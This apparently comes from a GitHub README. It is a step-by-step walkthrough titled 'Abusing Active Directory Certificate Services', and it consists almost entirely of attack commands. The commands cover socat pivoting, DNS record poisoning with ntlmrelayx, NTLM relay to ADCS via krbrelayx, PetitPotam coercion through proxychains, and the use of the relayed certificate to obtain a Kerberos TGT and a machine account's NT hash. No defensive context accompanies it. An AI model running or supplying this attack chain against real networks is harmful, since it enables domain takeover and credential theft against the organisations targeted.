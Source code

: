 <br>

---

### Abuse #2: Abusing Active Directory Certificate Services

#### 1. Run socat to Redirect Traffic (Inside Pivoting Node)

```console
./socat tcp-listen:8090,reuseaddr,fork tcp:<LOCAL_IP>:80 &
```

#### 2. DNS Poisoning

```console
python3 examples/ntlmrelayx.py -t "ldap://<DC_IP>" --no-smb-server --no-dump --no-da --no-acl --no-validate-privs --add-dns-record '<DC_HOSTNAME>1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA' <LOCAL_IP>
```

#### 3. Add hostnames to /etc/hosts

```console
<DC_IP> <DC_HOSTNAME>.<DOMAIN>
<TARGET_IP> <TARGET_HOSTNAME>.<DOMAIN>
```

#### 4. Relay NTLM to ADCS

```console
python3 krbrelayx.py -t 'https://<DC_HOSTNAME>.<DOMAIN>/certsrv/certfnsh.asp' --adcs -v '<TARGET_HOSTNAME>$'
```

#### 5. Run PetitPotam

```console
proxychains4 -q python3 PetitPotam.py -u '<UESR>' -p '<PASSWORD>' -d <DOMAIN> '<DC_HOSTNAME>1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA' <TARGET_HOSTNAME>.<DOMAIN>
```

#### 6. Request a TGT Using pfx file

```console
python3 gettgtpkinit.py -cert-pfx '<TARGET_HOSTNAME>$.pfx' '<DOMAIN>/<TARGET_HOSTNAME>$' '<TARGET_HOSTNAME>$.ccache'
```

#### 7. Get NT Hash

```console
python3 getnthash.py '<DOMAIN>/<TARGET_HOSTNAME>$' -key <AS_REP_ENC_KEY>
```